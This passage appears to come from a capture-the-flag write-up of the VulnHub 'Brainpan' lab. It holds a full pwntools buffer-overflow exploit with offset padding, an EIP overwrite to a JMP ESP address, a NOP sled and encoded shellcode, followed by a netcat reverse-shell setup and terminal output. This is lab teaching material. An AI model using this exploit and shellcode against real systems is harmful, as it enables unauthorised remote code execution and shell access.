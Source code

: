 ```bash
shellcode += b"\xfb\xeb\xc8\x01\x2b\x23\x6a\xbb\xba\xd8\x38"
shellcode += b"\x68\x34\xff\x0c\x85\x8b\x80"
```

Now lets put together the python script

```python
from pwn import *
import os

# Connect to the application
r = remote('192.168.1.2', 9999)

# Rcecieve the password prompt
print(r.recv(1000))

# Fill the OFFSET
shellcode = b"A"*524

# Overwrite EIP with JMP ESP instruction
shellcode += p32(0x311712F3)

# Add padding
shellcode += b"\x90"*20

# Write the shellcode
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x5e\x29\xc9\xb8\x45"
shellcode += b"\x50\x9b\xbe\xb1\x12\x31\x46\x17\x83\xc6\x04"
shellcode += b"\x03\x03\x43\x79\x4b\xba\xb8\x8a\x57\xef\x7d"
shellcode += b"\x26\xf2\x0d\x0b\x29\xb2\x77\xc6\x2a\x20\x2e"                                                                                                                   
shellcode += b"\x68\x15\x8a\x50\xc1\x13\xed\x38\x12\x4b\x0c"
shellcode += b"\xbc\xfa\x8e\x0f\xad\xa6\x07\xee\x7d\x30\x48"
shellcode += b"\xa0\x2e\x0e\x6b\xcb\x31\xbd\xec\x99\xd9\x50"
shellcode += b"\xc2\x6e\x71\xc5\x33\xbe\xe3\x7c\xc5\x23\xb1"
shellcode += b"\x2d\x5c\x42\x85\xd9\x93\x05" 

# Send the exploit
r.sendline(shellcode)
```

Start a `netcat` listener on port `4444` to receive the shell and execute our script.
```bash
kali@kali:~/Desktop/vulnhub/brainpan$ python3 brain.py 
[+] Opening connection to 192.168.1.2 on port 9999: Done
b'_|                            _|                                        \n_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  \n_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|\n_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|\n_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|\n                                            _|                          \n                                            _|\n\n[________________________ WELCOME TO BRAINPAN _________________________]\n                          ENTER THE PASSWORD                              \n\n                          >> '
kali@kali:~/Desktop/vulnhub/brainpan$ 
```
